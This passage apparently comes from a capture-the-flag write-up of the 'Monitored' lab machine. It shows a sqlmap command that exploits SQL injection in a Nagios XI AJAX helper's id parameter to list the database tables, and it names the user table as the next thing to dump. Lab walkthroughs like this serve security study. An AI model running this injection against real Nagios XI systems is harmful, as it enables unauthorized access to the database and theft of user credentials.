 ![Databases disclosed](/assets/img/Monitored/Monitored_04.png)



So the next step would be to check what tables are present within this database.

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=1&token=0c9e269703f86ad38766a7c282272de56787ea99" -p id --proxy=http://127.0.0.1:8080 --batch  --tables -D nagiosxi
```
Here we can see that there are a lot of tables however the most interesting of them all was the user table. The next step would be to extract the data of all users.

![Tables ](/assets/img/Monitored/Monitored_05.png)
